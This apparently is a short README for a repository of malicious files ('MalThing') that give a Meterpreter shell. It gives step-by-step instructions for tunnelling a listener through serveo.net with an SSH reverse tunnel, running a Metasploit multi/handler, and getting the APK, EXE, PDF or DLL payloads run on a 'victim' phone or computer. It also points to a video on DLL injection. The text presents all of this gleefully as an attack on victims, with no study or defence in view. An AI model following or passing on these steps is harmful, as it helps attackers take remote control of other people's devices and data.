 

__  __       _ _____ _     _
|  \/  | __ _| |_   _| |__ (_)_ __   __ _
| |\/| |/ _` | | | | | '_ \| | '_ \ / _` |
| |  | | (_| | | | | | | | | | | | | (_| |
|_|  |_|\__,_|_| |_| |_| |_|_|_| |_|\__, |
                                    |___/

A bunch of malicius thing to get a meterpreter shell

how to control this MalThing to create a METERPRETER SHELL!!!

MAKE SURE YOU HAVE AN INTERNET ACCESS!!!

1.install open ssh with "apt-get install openssh"

2.type "ssh -R 3249:localhost:3249 serveo.net"

3.open msfconsole run listener with multi/handler setup and with your localhost and port=3249

3.install and run the apk on your victime phone.....make sure your victim phone had a internet access(FOR THE MalAPK FILE)

3.Run it on the victim computer.....make sure your victim computer had a internet access(FOR THE MalEXE,MalMS,MalPDF)

4.and get a METERPRETER SHELL!!!!!HAHAHAHAHA

PS:For the dll....search for how to inject dll on process or watch this https://www.youtube.com/watch?v=yKoD5Oy8CKQ&t=338s
